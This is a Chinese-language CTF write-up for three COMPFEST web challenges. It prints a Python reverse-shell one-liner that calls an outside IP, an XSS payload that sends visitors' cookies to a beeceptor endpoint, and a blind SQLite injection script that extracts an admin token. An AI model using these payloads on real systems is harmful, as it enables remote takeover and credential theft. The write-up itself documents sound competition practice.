 前几天没事打了国外的一个 CTF 比赛( COMPFEST CTF  )，web 部分对新手挺友好的，在这里做个记录

# Super Judge

题目描述

> We tried to recreate competitive programming online judge for python only, but failed miserably, and by miserably, fatal failure. What's the bug? see if you can find it out!


看到是一个文件上传的页面

![](https://i.loli.net/2020/09/19/kPJeF2hUmgswncO.jpg)

随便上传一个文件试一试，返回了django的debug页面

![](https://i.loli.net/2020/09/19/XLQF8iNdhlpEJWB.jpg)

![](https://i.loli.net/2020/09/19/ZzkQn6ILcipyxUM.jpg)

在该页面可以看到一些源码，大意是把上传文件的内容用 exec 执行，因为这里并没有回显，可以直接尝试反弹 shell

![](https://i.loli.net/2020/09/19/1EHUKiQrGsgy8MW.jpg)

payload : 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('47.95.217.198',20000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);
```

![](https://i.loli.net/2020/09/19/zmEKWMOL1h2FyCg.jpg)

![](https://i.loli.net/2020/09/19/s8Xz1R3vJ7GUAjr.jpg)

flag : COMPFEST12{f4k3_5up312_u53r_hUH_?}

# Regular Forum Page

题目描述

> Check out my sweet new forum page! Mods will check often in to prevent bad things from happening.


![](https://i.loli.net/2020/09/19/BIAn51zm7M8WXwZ.jpg)

注册登陆

![](https://i.loli.net/2020/09/19/9Yyn5Ho6TSCwgDA.jpg)

创建一个表格，在评论处存在xss

![](https://i.loli.net/2020/09/19/d48USntRh9rMGvN.jpg)

![](https://i.loli.net/2020/09/19/OU5fFexXIAuoGlp.jpg)

![](https://i.loli.net/2020/09/19/WFs23tIyvLTNzYO.jpg)

根据题目描述，大概意思就是要窃取cookie，到 https://beeceptor.com/ 注册一个临时子域名接收 cookie

payload如下

```html
><img src=1 onerror="window.location.href='https://peri0d.free.beeceptor.com/?get='+document.cookie">
```

![](https://i.loli.net/2020/09/19/KxykpuGNEolbdqc.jpg)

![](https://i.loli.net/2020/09/19/wzGTciOEhl6Bek8.jpg)

# NoPass

题目描述

> Forgets your password! We've already invent secure login system. One account only can log on in one device. The flag is the token of admin.
> P.S: Choose unique username to avoid duplicate.
>
> 128.199.157.172:28337
>
> Difficulty: Medium


hint

> I think the token is saved in database


![](https://i.loli.net/2020/09/19/XtngqpufLyAzZbO.jpg)

登陆之后界面如下

![](https://i.loli.net/2020/09/19/mOjb8TVWZyJI3sD.jpg)

访问 flag 提示没有权限

![](https://i.loli.net/2020/09/19/SqPDidEo7xKN2eO.jpg)

根据提示说 token 保存在数据库，发现这里请求头的 token 处存在 SQLite3 的注入

![](https://i.loli.net/2020/09/19/Io9aLgiGmJjSADc.jpg)

可以写个脚本用二分法进行盲注，可以获取表名 django_migrations,sqlite_sequence,django_content_type,nopass_login_account

```python
import requests

url = 'http://128.199.157.172:28337/flag'

# token=9Utongvpml4hI84sG8aLYFm5UTryfHEM' or unicode(substr((select group_concat(name) from sqlite_master where type='table'),1,1))=100 or '1'='0
def get_name():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            payload = f"token=9Utongvpml4hI84sG8aLYFm5UTryfHEM' or unicode(substr((select group_concat(name) from sqlite_master where type='table'),{i},1))>{mid} or '1'='0" 
            headers={
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0',
                'Cookie': payload
            }
            # print(headers)
            r = requests.get(url=url, headers=headers)
            # print(r.text)

            if 'Error: Permission Denied' in r.text:
                high = mid
            else:
                low = mid + 1
                
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
get_name()
```

不难判断要获取 nopass_login_account 表的数据，先获取 nopass_login_account 的信息，它的 tbl_name 为 nopass_login_account，它的 sql 为

```sqlite
CREATE TABLE "nopass_login_account" ("id" integer NOT NULL PRIMARY KEY AUTOINCREMENT, "token" varchar(200) NOT NULL UNIQUE, "username" varchar(50) NOT NULL UNIQUE, "is_admin" bool NOT NULL)
```

先去盲注一下 is_admin 字段，发现第一行数据就是 1 ，然后再盲注该行数据的 token 字段

```python
import requests

url = 'http://128.199.157.172:28337/flag'

# token=9Utongvpml4hI84sG8aLYFm5UTryfHEM' or unicode(substr((select group_concat(name) from sqlite_master where type='table'),1,1))=100 or '1'='0
def get_name():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            # payload = f"token=9Utongvpml4hI84sG8aLYFm5UTryfHEM' or unicode(substr((select group_concat(is_admin) from nopass_login_account),{i},1))>{mid} or '1'='0"
            
            payload = f"token=9Utongvpml4hI84sG8aLYFm5UTryfHEM' or unicode(substr((select group_concat(token) from nopass_login_account where is_admin=1),{i},1))>{mid} or '1'='0"
            
            headers={
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0',
                'Cookie': payload
            }

            # print(headers)
            r = requests.get(url=url, headers=headers)
            # print(r.text)

            if 'Error: Permission Denied' in r.text:
                high = mid
            else:
                low = mid + 1
                
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
get_name()
```

![](https://i.loli.net/2020/09/19/P3s7xgrCHLei9k6.jpg)

# 小结

- python 反弹 shell

  ```python
  import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.95.217.198",20000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
  ```

- SQLite 手工注入，隐藏表为 sqlite_master，其中 name 存放的是所有表名，其对应的 sql 存放的是建表语句

- sqlite_master 中的 name , tbl_name , sql 都可以看一下

